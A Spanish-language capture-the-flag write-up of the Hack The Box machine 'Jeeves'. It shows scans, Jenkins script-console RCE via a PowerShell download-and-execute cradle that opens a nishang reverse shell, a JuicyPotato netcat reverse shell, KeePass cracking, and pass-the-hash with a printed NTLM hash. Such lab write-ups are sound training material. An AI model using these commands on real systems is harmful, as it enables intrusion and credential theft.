




Estadísticas
| Característica | Descripción |
|---|---|
| Nombre | Jeeves |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad |  |
| Puntos | 30 |
| Creadores | mrb3n |
Reconocimiento
Escaneo de host
Escaneo completo de puertos
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 20:08 EDT
Initiating Connect Scan at 20:08
Scanning 10.10.10.63 [65535 ports]
Discovered open port 80/tcp on 10.10.10.63
Discovered open port 445/tcp on 10.10.10.63
Discovered open port 135/tcp on 10.10.10.63
Connect Scan Timing: About 26.73% done; ETC: 20:10 (0:01:25 remaining)
Discovered open port 50000/tcp on 10.10.10.63
Completed Connect Scan at 20:10, 97.29s elapsed (65535 total ports)
Nmap scan report for 10.10.10.63
Host is up, received user-set (0.069s latency).
Scanned at 2022-06-22 20:08:29 EDT for 97s
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
80/tcp open http syn-ack
135/tcp open msrpc syn-ack
445/tcp open microsoft-ds syn-ack
50000/tcp open ibm-db2 syn-ack
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 97.32 seconds
Escaneo específico
└─$ nmap -sCV -p 80,135,445,50000 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 21:30 EDT
Nmap scan report for 10.10.10.63
Host is up (0.069s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Ask Jeeves
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open http Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2022-06-23T06:30:29
|_ start_date: 2022-06-22T23:59:38
|_clock-skew: mean: 5h00m00s, deviation: 0s, median: 4h59m59s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.15 seconds
Enumeración
Servicios
http - 80
Se presenta en el sitio web un formulario con un input el cual al realizar el submit se redirige a error.html que presenta un imagen relacionada al tipo de error que arroja un IIS. Dado que está hardcodeada la redireccion no se intentó nada al respecto.

Por otro lado, también se buscó fuzzear directorios mediante ffuf, sin tener éxito mostrando sólo las rutas con las anteriormente se había interactuado.
http - 50000
Manual
Se hace la omisión de los puertos en los cuales no se encontró información que pudiera resultar útil, sin embargo, en este puerto es mostrado un error genérico del servidor Jetty exponiendo en primera instancia la versión que se está ejecutando. Después de buscar vulnerabilidades relacionadas e intentar explotarlas se decidió no darle seguimiento dado que en este punto se había visualizado una ruta expuesta en la ejecución de ffuf.

ffuf
Después de casi completar el diccionario que por lo regular se usa, se identificó la ruta askjeeves mediante:
ffuf -c -ic -u http://10.10.10.63:50000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .txt,.xml,.html

Por lo que al navegar a esta se identificó la disponibilidad de un servidor Jenkins, abriendo paso a posibles rutas de explotación haciendo uso de las características ofrecidas por la plataforma.

Explotación
RCE 1
Pasos previos | Preparación
Jenkins ofrece una consola de scripts siguiendo la sintáxis de Groovy, disponible en Build Executor Status > master > Script Console.

Al visualizar la sintáxis necesaria para ejecutar comandos de consola expuesta en la misma sección, se preparó la reverse shell de nishang ejecutando al final del archivo la función empleada para entablar una reverse shell:
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
Ejecución
Se envió la invocación al recurso expuesto mediante la consola de scripts:
print "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')".execute().text
Estableciendo así la reverse shell.

RCE 2
Pasos previos | Preparación
Igualmente se pueden ejecutar comandos directamente en la máquina mediante la creación de un nuevo item Create New Item > Freestyle Project > Build > Execute Windows batch command, guardando en el campo de texto el comando a ejecutar:
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')

Ejecución
Restando sólo guardar el proceso en la plataforma y ejecutarlo (Save > Build Now). Teniendo de esta forma otra manera de ejecutar comandos a través de Jenkins.

Post Explotación
Enumeración
Al ejecutar:
whoami /all
Para observar los privilegios con los que cuenta el usuario, se visualizó disponible el privilegio SeImpersonatePrivilege habilitado lo que denota la ruta de escalación haciendo uso de JuicyPotato.

Además, se identificó una base de datos de KeePass CEH.kdbx en el directorio Documents del usuario, abriendo otra ruta de escalación si se llegara a encontrar información relevante para el proceso.

Escalación de privilegios
kohsuke → nt authority\system
JuicyPotato
Al cargar previamente el binario de netcat y ejecutar el binario de JuicyPotato se obtuvo una reverse shell como nt authority\system mediante:
.\jp.exe -t * -l 1337 -p cmd.exe -a " /c C:\users\kohsuke\downloads\nc.exe -e cmd.exe 10.10.14.16 1234"

- Ejecución de JuicyPotato.
- Otención de reverse shell.
KeePass
Se extrajo la base de datos de KeePass haciendo uso de la utilería de impacket, mediante:
impacket-smbserver smbFolder $(pwd) -smb2support` y realizando el copiado con `cp .\CEH.kdbx \\10.10.14.16\smbFolder
Posteriormente, para crackear el archivo fue necesario primero extraer el hash del mismo, usando keepass2john CEH.kdbx > ceh.hash para a continuación iniciar el proceso de cracking haciendo uso de:
john ceh.hash --wordlist=/usr/share/wordlists/rockyou.txt
Obteniendo así la contraseña del archivo (moonshine1).

La base de datos expone múltiples entradas con contraseñas disponibles aunque una en particular se realzó por sobre todas debido al formato de la entrada. Identificandola como un hash NTLM aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00.

Por lo que hizo uso de nuevo de impacket para conectar a la máquina proveyendo el hash. Dada la estructura de lo hashes NTLM se podría usar tanto como:
impacket-psexec 'administrator@10.10.10.63' -hashes 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00'
Como con:
impacket-psexec 'administrator@10.10.10.63' -hashes ':e0fb1fb85756c24235ff238cbe81fe00'
Debido a que la primera mitad corresponde al identificador de la máquina y la segunda a la "autorización" del usuario.

Obtención de bandera
Después de buscar extraer el contenido de la bandera, se encontró el archivo hm.txt el cuál indica que la bandera no se encuentra presente si no en otro sitio. Durante ese proceso se encontró información referente a los Alternate Data Streams que básicamente son una forma de ocultar información en un archivo y la característica existe únicamente en sistemas de archivos de tipo NTFS.

Por lo que haciendo uso de los comandos sugeridos en el artículo se pudo visualizar que el stream oculto era root.txt con:
powershell.exe get-item -path .\hm.txt -stream *
Para posteriormente extraer su contenido mediante:
powershell.exe get-content -path .\hm.txt -stream root.txt